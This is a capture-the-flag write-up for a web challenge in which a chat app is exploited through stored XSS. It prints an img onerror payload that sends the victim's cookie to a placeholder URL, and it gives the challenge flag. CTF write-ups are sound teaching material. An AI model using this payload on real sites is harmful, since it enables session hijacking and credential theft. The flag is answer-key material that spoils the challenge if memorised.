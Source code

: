 # [Web] Chatt with Bratt - (50 pts)

## Description

After announcing that he would be having an anonymous 1-on-1 AMA with randomly chosen, adoring fans, an engineering team hacked together a web app and likely forget to patch some obvious security holes. Anyway, you're one of the lucky fans chosen to chatt with Bratt Pid! Have fun: [web3.utctf.live:8080](http://web3.utctf.live:8080)

_by phleisch_

## Solution

The site is a simple chat room.

![](Screenshot_1.png)

By sending `<img src="123" onerror="alert(1)">`, we can get this:

![](Screenshot_2.png)

Thus we can use XSS to get the flag in the cookie from Bratt Pid: `<img src="123" onerror="window.location = 'url-here?cookie=' + document.cookie">`

Flag `utflag{95debad95cfb106081f33ceadc36bf9c}`
